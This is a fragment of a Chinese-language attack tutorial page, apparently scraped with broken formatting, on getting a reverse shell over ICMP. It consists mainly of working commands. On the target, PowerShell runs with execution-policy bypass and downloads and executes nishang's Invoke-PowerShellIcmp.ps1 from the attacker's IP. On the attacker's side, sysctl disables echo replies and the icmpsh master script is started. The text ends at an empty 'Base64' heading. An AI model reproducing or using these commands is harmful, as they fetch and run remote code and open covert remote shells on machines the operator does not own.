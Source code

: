 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

##### **ICMP**

```


### 

```
`攻击机IP:108``靶机IP:100``https://github.com/inquisb/icmpsh``靶机执行``>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.108/ps/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp 192.168.0.108`
```






```


```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


```
攻击机执行，开启相应ICMP ECHO请求  

```

```


### 

```
`>sysctl -w net.ipv4.icmp_echo_ignore_all=1``>./icmpsh_m.py 192.168.0.108 192.168.0.100`
```






```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### Base64  

```


### 
